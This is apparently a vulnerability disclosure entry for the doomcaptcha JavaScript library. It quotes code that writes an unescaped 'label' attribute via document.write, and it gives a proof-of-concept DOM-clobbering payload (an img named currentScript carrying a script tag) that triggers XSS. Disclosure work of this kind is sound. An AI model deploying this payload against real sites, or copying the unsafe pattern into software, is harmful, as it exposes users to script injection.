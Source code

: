 ## doomcaptcha

### Meta

+ Library: doomcaptcha
+ Stars: 1K
+ Version: latest
+ Payload: ```<img name="currentScript" label="<script>alert(1)</script>"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Mitre
+ Foundby: TheHulk

### Library

URL:
+ `https://github.com/vivirenremoto/doomcaptcha/blob/main/script.js`

### Vulnerable Code Snippet

```javascript
var captcha_label = document.currentScript.getAttribute('label');

var captcha_html = '';
if (captcha_label) {
    captcha_html = '<p>' + captcha_label + '<br>';
}

document.write(captcha_html);
```

## PoC

```
<!--Library-->
<form>
<script src=script.js></script>
</form>
<!--Library-->

<!--Payload-->
<img name=currentScript label="<script>alert(1)</script>"></img>
<!--Payload-->
```
